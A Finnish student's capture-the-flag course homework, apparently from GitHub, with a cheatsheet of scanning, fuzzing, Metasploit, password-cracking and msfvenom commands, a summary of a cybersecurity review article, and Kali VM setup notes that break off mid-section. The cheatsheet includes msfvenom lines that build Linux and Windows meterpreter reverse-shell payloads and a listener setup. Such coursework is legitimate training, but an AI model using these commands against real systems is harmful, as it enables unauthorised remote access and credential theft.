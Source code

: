 # a) Cheatsheet. Kerää parhaat komennot lipunryöstöä varten. Lähteinä voit käyttää omia ja kurssikavereiden läksyraportteja, vanhoja cheatsheet:eja sekä vierailijoiden kalvoja. (Kerää nimenomaan ne komennot ja sisältö, ei pelkkää linkkilistaa, ei pelkkää kuvailua. Tässä alakohdassa komentoja ei tarvitse kokeilla koneella).

NMAP
| Syntax | Description |
| :--- | ---: |
| nmap -A -p- <'ip-address'> | Laaja porttiskannaus kaikille portille 1-65535 kohde IP koneelle. |
| nmap <'ip-address'> | Perusmuotoinen TCP SYN skannaus yleisimmille porteille 1-1000 kohde IP koneelle. |
| nmap --top-ports <'n'> <'ip-address'> | Perusmuotoinen skannaus yleisimmille 'n' määrälle porteille. Yleensä 1000. |  

FFUF
| Syntax | Description |
| :--- | ---: |
| ./ffuf -w common.txt -u http://kohdeURL/FUZZ | -w käyttää common.txt worlistia fuzzaamiseen, -u syötetään fuzzattava URL |
| ./ffuf -w common.txt -u http://kohdeURL/FUZZ -fc; -fl; -fmode; -fr; -fs; -ft; -fw | Filtterit : c > HTTP stat codes, l > lines, mode > parameters, r > regexp, s > size, t > time, w > wordcount |


METASPLOIT FRAMEWORK
| Syntax | Description |
| :--- | ---: |
| jobs -l ; -k | -l listaa käynnissä olevat tehtävät ja -k pysäyttävät ne. |
| sessions -l ; -i | -l listaa käynnissä olevat meterpreter sessiot ja -i ottaa siihen yhteyden |
| show -h  | Näyttävät vaihtoehdot mitä voidaan näyttää esim. payloads, exploits, plugins jne. |

METASPLOIT/MULTI/HANDLER
| Syntax | Description |
| :--- | ---: |
| use exploit/multi/handler | Payload handlerin käyttö |
| set PAYLOAD; LHOST; LPORT; ExitOnSession; run | Multi-handler parametrien asetukset |

MSFVENOM 
| Syntax | Description |
| :--- | ---: |
| msfvenom -p <'PAYLOAD'> -f <'Filetype'> LHOST= <'localhost-ip'> LPORT= <'listeningport'> > <'output-filename'> | msfvenom payloadin generointi |
| msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf | Linux reverse-tcp payload generointi |
| msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe | Windows reverse-tcp payload generointi |


JOHN THE RIPPER
| Syntax | Description |
| :--- | ---: |
| ./john/run/<'module-name'> > 'output-file.hash' | Ajaa run hakemistosta valitun moduulin joka ottaa hash tiedon ja ulostaa sen toiseen tiedostoon |
| ./john/run/john <'finlename.hash'> | Aloittaa hashin murtamista |

HASHCAT / HASHID
| Syntax | Description |
| :--- | ---: |
| hashid -m <'hash'> | Analysoi hashin ja sen mahdollista tyyppiä |
| hashcat -m <'mode-number'> <'hash'> <'wordlist.txt'> -o <'outputfile'> | -m kertoo hashmoden ja wordlistiin syötetään esim rockyou.txt ja -o ulostaa murretun hashin erilliseen tiedostoon. |

# b) Review. Etsi ja tiivistä vertaisarviotu katsausartikkeli valitsemaltasi kyberturvallisuuden tai hakkeroinnin alalta.

## Artikkelin valinta

Artikkeliksi valitsin Kaur J.:n ja Ramkumar K.R.:n kirjoittaman katsausartikkelin "The recent trends in cyber security: A review" joka on osana "Journal of King Saud University - Computer and Information Sciences" -Lehteä/sarjaa. Lehti on on saanut Julkaisufoorumin arvioinnin tasoa 1. Artikkeli on ollut julkisesti saatavilla 9.2.2021 ja sen virallinen lehtijulkaisuajankohta oli 9/2022.

Julkaisufoorumin arvio:
https://jfp.csc.fi/#!PublicationInformationView/id/84096

Artikkelia pääsee lukemaan tästä: 
https://www.sciencedirect.com/science/article/pii/S1319157821000203

Sen saa myös ilmaiseksi ladattuna PDF-muodossa.

## Artikkelin tiivistelmä


- Artikkelissa käsitellään nykyajan tietotuvan uusista menetelmistä ja teknologiasta, jolla pyritään tietoturvallisuuden viitekehyksiä. Se toimii ylipäätään teknisenä raporttina nykytutkijoille tietoturvan nykyisisestä tilasta.
-  Iso-Britannia on esittänyt kansallisen National Security Strategy vuosina 2016-2021 ja satsannut siihen 1.9 miljardia puntaa(£) kansallisen tietoturvansa parantamiseksi.
-  Vuonna 2018, Lähes 70 valtiota ovat jollakin tasolla dokumentoidusti kehittäneet heidän tietoturvastrategiansa.
- Artikkelissa käsiteltiin hieman kryptografian historiasta, jossa nykyajan salausmenetelmistä alkoi DES menetelmällä vuonna 1977. Tämä kuitenkin murrettiin vuonna 1999 alle 24 tunnissa brute-force hyökkäyksellä ja todettiin epäluotettavaksi lyhyen kirjainmääränsä vuoksi (56-bit).
DES menetelmälle kehitettiin EDE-mode (3DES) joka kolminkertaisti pituutensa (168-bit).
Vuonna 2001 NIST julisti valitsevansa uuden salausmenetelmän AES, jossa oli vaihtelevat pituudet (128, 192, 256 bittiä). AES ei ole tähän päivään asti pystytty murtamaan.
- Vuonna 1976, Diffie-Hellman menetelmä oli yksiä ensimmäisiä salausmenetelmiä, jossa hyödynnettiin jaetun avaimen salausmenetelmää. Tästä kehitettiin RSA menetelmä vuonna 1978 johon lisättiin julkisen avaimen menetelmää, joka myös yleisesti käytetään nykypäivänä.
- Nykypäivän RSA ja AES menetelmät halutaan parantaa implementoimalla Quantum cryptography menetelmiä. Quantum-salausmenetelmissä käytetään bittien sijaan Qbitteja, mitkä ovat mahdottomia kopioida, sekä mahdotonta tunnistaa minkälaisen suodattimen kautta sen purkamiseen käytetään. Quantum-tietokoneita ovat vielä kehitteellä, mutta voivat artikkelin mukaan olla käytössä jo vuonna 2025.
- Artikkelissa puhuttiin Side-Channel hyökkäyksistä (SCA). Näitä hyökkäyksiä salausmenetelmiä vastaan eivät suorannaisesti yritä murtaa salausta, vaan keskittyvät salauksen tekemiseen käytettäviin laitteisiin tai fyysisiin kanaviin. Tietoja voivat olla signaaleja, elektromagneettisia vuotoja, virrankulutustiedot, ajastustiedot ja äänitiedot.

# c) Valmiina lipunryöstöön. Asenna läppärillesi tarvittavat työkalut lipunryöstöön. Hyökkäyskone voi olla virtuaalikone. Se ei saa sisältää luottamuksellisia tietoja, koska sitä voi olla tarpeen tarkistaa ja tutkia harjoituksen yhteydessä. Koneella saatetaan ajaa testibinäärejä ja kontteja; sekä tarkastamiseen liittyviä ohjelmia. Harjoituksessa saattaa olla Docker-kontteja, kokeile, että Docker toimii (Muistaakseni 'sudo apt-get -y install docker.io').

Käytän tässä lipunryöstötehtävässä kurssilla käyttämääni Kali virtuaalikonetta

Varmistin, että minulla ei ollut arkaluonteista dataa konella. Tarkistin, että minulla oli tarvittavat paketit ja työkalut asennettuna lipunryöstöä varten:

Metasploit:


